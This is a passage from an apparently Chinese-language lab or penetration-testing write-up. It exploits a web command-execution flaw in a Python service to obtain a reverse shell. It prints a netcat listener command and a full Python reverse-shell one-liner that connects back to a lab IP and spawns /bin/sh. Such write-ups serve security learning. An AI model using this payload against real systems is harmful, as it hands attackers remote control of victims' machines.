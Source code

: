 发现是一个测试代码的页面

因为指纹收集时，发现是一个python提供的服务，所以预使用python反弹一个shell



## web命令执行漏洞与反弹shell

1.首先在kali机上用nc开启一个监听端口

```
nc -lvvp 9999
```

2.在[棱角社区](https://forum.ywhack.com/shell.php)找到一个python的反弹shell命令

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.103",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

192.168.56.103为kali机的IP，9999为刚刚开启的监听端口

![image-20230903010137821](../资源文件/图片/image-20230903010137821.png)
